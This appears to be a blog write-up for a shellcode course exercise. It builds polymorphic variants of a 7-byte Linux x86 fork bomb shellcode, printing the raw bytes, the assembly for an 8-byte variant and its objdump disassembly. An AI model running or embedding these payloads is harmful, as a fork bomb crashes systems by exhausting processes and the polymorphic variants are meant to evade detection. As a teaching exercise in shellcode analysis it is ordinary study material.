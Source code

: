The shellcode is only 7 bytes long ("\x6a\x02\x58\xcd\x80\xeb\xf9"), so our
variants can't be longer than 10,5 bytes. This will limit us very hard when
creating the generator script.

### First variation

The idea behind this variation is super easy: put in EAX the value 2 and call
INT 0x80 then repeat in a loop the whole process.

The first easy variation is not using the push/pop technique to init EAX, but
XOR-ing the register and moving 0x2 instead.

{%highlight assembly%}
section .text
global _start

_start:
	xor eax, eax
	mov al, 0x2

	int 0x80
	jmp short _start
{%endhighlight%}

This results in a 8 bytes shellcode, so just 1 bytes more than the original one:

{%highlight asm%}
thesp0nge@SLAE /media/sf_SLAE_Course/SLAE/Assignment_6/fork
 % objdump -d forkbomb_variant

forkbomb_variant:     file format elf32-i386


Disassembly of section .text:

08048080 <_start>:
 8048080:	31 c0                	xor    %eax,%eax
 8048082:	b0 02                	mov    $0x2,%al
 8048084:	cd 80                	int    $0x80
 8048086:	eb f8                	jmp    8048080 <_start>
{%endhighlight%}

{%asciicast 198406 %}

Now, let's create our polymorphic generator script for fork bombing shellcode.

### Shuffle it!

Unfortunately, the shellcode is too short to shuffle operands. So this strategy
doesn't work this time.

![Can't shuffle this time]({{site.url}}/assets/images/fork_no_shuffle.png)

### Add some NOPs

Even this strategy lacks of interest. In our variation, the MOV instruction
**must** be executed after the XOR and both of them, they must be executed
right before the INT.

